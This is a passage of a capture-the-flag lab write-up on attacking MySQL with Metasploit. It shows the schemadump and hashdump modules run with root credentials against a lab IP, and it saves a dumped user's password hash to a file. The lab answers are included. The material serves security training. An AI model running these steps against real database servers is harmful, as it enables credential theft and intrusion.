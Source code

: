 > auxiliary/scanner/mysql/mysql_schemadump

**2. Great! Now, you've done this a few times by now so I'll let you take it from here. Set the relevant options, and run the exploit. What's the name of the last table that gets dumped?**

```bash
set PASSWOR password
set RHOSTS 10.10.109.166
set USERNAME root

run
```

![[ns2-mysql-10.png|600]]

![[ns2-mysql-11.png|300]]

> x$waits_global_by_latency

**3. Awesome, you have now dumped the tables and column names of the whole database. But we can do one better. Search for and select the "mysql_hashdump" module. What's the module's full name?**

![[ns2-mysql-12.png|540]]

```bash
search musql_hashdump
use 0
```

> auxiliary/scanner/mysql/mysql_hashdump

**4. Again, I'll let you take it from here. Set the relevant options, and run the exploit. What non-default user stands out to you?**

```bash
set PASSWOR password
set RHOSTS 10.10.109.166
set USERNAME root

run
```

![[ns2-mysql-13.png|560]]

> carl

**5. Another user! And we have their password hash. This could be very interesting. Copy the hash string in full, like: bob:HASH to a text file on your local machine called "hash.txt".  
What is the user/hash combination string?**

![[ns2-mysql-14.png|520]]

```bash
echo "carl:*EA031893AA21444B170FC2162A56978B8CEECE18" > hash.txt
```

> carl:\*EA031893AA21444B170FC2162A56978B8CEECE18
